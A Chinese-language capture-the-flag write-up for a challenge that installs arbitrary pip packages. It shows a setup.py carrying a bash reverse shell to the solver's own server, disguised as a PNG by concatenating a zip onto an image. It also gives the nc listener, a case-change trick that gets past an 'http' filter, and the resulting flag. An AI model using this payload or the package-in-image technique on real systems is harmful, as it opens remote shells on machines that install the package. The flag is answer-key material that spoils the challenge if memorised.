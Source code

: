 ## 题目描述

可以安装任意包的接口，你会怎么利用呢?

## 解题

根据搜索该题为`RCE`漏洞的利用，本题的主要原理就是`pip`在下载包以后，会自动进行解压然后执行`setup.py`文件，那么可以人为构造一个带有恶意代码的`setup.py`文件，然后把该文件压缩，和`png`图片合在一起上传至公网服务器上，当题目执行`pip`安装包时，会触发我们自己构建的`setup.py`文件中的代码。

解题需求：要求一台具有稳定`ipv4`地址并开启web服务的服务器；

一、构建恶意图片

1、随便找一张图片；

2、构建反弹shell，使出题服务器使用pip安装时自动与我们的服务器建立`tcp`连接

```python
__import__('os').system("bash -c 'bash -i >& /dev/tcp/自己服务器IP地址/端口号 0>&1'")
```

> 解释：
> `bash -c  "cmd string"`  接的是`shell`命令字符串，用引号括起来，运行后面的命令；
> `bash -i` 创建一个交互式`bash`进程
> `>&`    将标准输入和标准错误输出重定向到文件`/dev/tcp/`自己服务器IP地址/端口号;
> `/dev/tcp/`自己服务器IP地址/端口号 一个特殊的设备，打开了这个文件相当于发出了一个`socket`调用，建立一个`socket`连接;
> `0>&1` 将标准输入重定向到标准输出,使我们既能进行输入，又能看到输出
> 注意服务器的端口一定要是开放的

将上面的代码放入`setup.py`中，然后创建一个文件夹（名字英文任取），将`setup.py`放入文件夹，然后压缩文件夹，得到`文件夹.zip`

3、在`windows`电脑的`cmd`窗口上用命令

```powershell
copy /b tupian.png + 文件夹.zip tupian.png 
```

二、上传图片至服务器网站目录

需注意上传的图片一定要能正常访问，可以在浏览器上测试。

三、开始解题

1、先在服务器上使用`nc`命令监听端口

```shell
sudo nc -lvn 端口
```

![image-20240220161135499](./img/piphack/image-20240220161135499.png)

2、然后用`nc`连接题目给出的地址

![image-20240220161139217](./img/piphack/image-20240220161139217.png)

这里发现题目过滤了`http`，尝试使用`Http`绕过，等待一会儿发现在我们的服务器上已经连接上，说明成功，接下来就是一系列测试命令最终发现`flag{a262d436-704d-402b-881d-c487d7cf945f}`

![image-20240220161144411](./img/piphack/image-20240220161144411.png)

